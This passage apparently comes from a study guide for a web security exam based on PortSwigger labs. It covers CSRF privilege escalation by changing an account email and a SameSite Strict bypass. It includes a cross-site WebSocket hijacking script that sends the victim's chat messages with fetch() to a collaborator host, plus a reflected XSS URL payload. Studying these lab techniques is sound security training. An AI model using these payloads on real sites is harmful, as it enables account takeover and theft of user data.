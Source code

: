 ![CSRF privesc](images/csrf-privesc.png)  
  
### CSRF No Defences  

>Target with no defences against email change function, can allow the privilege escalation to admin role. In the exam changing the email to the `attacker@EXPLOIT.NET` email address on the exploit server can allow the attacker to change the password of the admin user, resulting in privilege escalation.  
>In the exam there is only ***one*** active user, and if the previous stage was completed using an attack that did not require the involving of the active user clicking on a link by performing poison cache or performing phishing attack by means of `Deliver to Victim` function, then CSRF change exploit can be used.  

![csrf-change-email.png](images/csrf-change-email.png)  

[PortSwigger Lab: CSRF vulnerability with no defences](https://portswigger.net/web-security/csrf/lab-no-defenses)  

### SameSite Strict bypass  

>In the live chat function, we notice the `GET /chat HTTP/2` request do not use any unpredictable tokens, this can ***identify*** possible  [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) (CSWSH) vulnerability if possible to bypass [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) cookie restriction.  

>Host on exploit server POC payload to ***identify*** CSWSH vulnerability.  

```
<script>
    var ws = new WebSocket('wss://TARGET.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://COLLABORATOR.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```  

>The `SameSite=Strict` is set for session cookies and this prevent the browser from including these cookies in XSS cross-site requests. We ***Identify*** the header `Access-Control-Allow-Origin` in additional requests to script and images to a subdomain at `cms-`.  
>Browsing to this CDN subdomain at `cms-` and then ***identify*** that random user name input is reflected, confirmed this to be a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability.  

[cms reflected xss samesite bypass](images/cms-reflected-xss-samesite-bypass.png)  

```
https://cms-TARGET.net/login?username=%3Cscript%3Ealert%28%27reflectXSS%27%29%3C%2Fscript%3E&password=pass
```  

>Bypass the SameSite restrictions, by URL encode the entire script below and using it as the input to the CDN subdomain at `cms-` username login, hosted on exploit server.  
